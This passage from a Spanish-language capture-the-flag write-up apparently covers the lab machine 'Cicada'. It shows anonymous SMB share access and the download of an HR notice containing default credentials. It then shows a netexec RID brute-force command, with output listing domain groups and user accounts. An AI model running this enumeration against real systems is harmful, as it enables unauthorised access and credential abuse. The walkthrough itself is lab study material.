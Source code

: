 ~~~bash
Password for [WORKGROUP\123]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024
ge
                4168447 blocks of size 4096. 477875 blocks available
smb: \> get Notice from HR.txt 
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \Notice
smb: \> mget *
Get file Notice from HR.txt? Y
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (1.5 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \> exit
~~~
Al leer su contenido, se puede ver unas credenciales por defecto para las cuentas nuevas, esto podria ser bueno porque puede ser que a otros trabajadores no se les haya ocurrido cambiarla y sigan con credenciales por defecto.
Pero al momento no tengo ningun usuario, por lo que se empezara a enumerar a los usuarios con netexec.
~~~
sudo netexec smb 10.10.11.35 -u 'dqw' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\dqw: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
~~~